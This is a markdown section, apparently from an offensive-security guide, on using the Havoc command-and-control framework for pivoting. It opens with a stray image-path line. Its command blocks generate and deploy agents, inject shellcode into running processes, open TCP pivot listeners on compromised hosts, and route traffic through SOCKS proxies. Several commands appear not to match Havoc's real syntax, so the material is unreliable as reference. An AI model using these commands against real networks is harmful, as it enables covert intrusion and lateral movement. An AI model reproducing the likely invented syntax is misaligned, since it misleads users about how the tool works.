 :::note
Havoc C2 operations require a configured and running Havoc server. Ensure you generate appropriate agents and listeners for your specific architecture and scenario. Replace hostnames, ports, and agent parameters accordingly.
:::

Havoc represents a state-of-the-art command and control framework with sophisticated pivoting capabilities designed for advanced persistent threat simulation.

### 6.1 Agent Deployment and Configuration

```bash
# Generate pivot-capable agent
havoc --generate-agent --arch x64 --format exe --sleep 5 --jitter 10 --pivot

# Deploy agent with custom configuration
havoc --agent-config sleep=10,jitter=20,killdate=2024-12-31

# Deploy via existing demon session
demon> spawn --arch x64 --format exe --listener pivot_tcp

# Agent with injection capabilities
demon> inject --pid 1234 --arch x64 --format shellcode
```

### 6.2 TCP Pivot Implementation

```bash
# Establish TCP pivot listener
demon> pivot tcp --lhost 192.168.1.100 --lport 4444

# Connect new agent through pivot
demon> pivot tcp --rhost pivot_host --rport 4444

# Bind TCP pivot on compromised host
demon> pivot tcp --bind --lport 443 --host 0.0.0.0

# List active pivots
demon> pivot list

# Remove specific pivot
demon> pivot remove --id 1
```

### 6.3 SOCKS Proxy Configuration

```bash
# Start SOCKS5 proxy through agent
demon> socks start --port 1080 --host 127.0.0.1

# SOCKS proxy with authentication
demon> socks start --port 1080 --user admin --pass secret

# Configure routing through SOCKS
demon> route add --network 10.10.10.0/24 --interface socks --port 1080

# Stop SOCKS proxy
demon> socks stop --port 1080

# List SOCKS proxies
demon> socks list
```
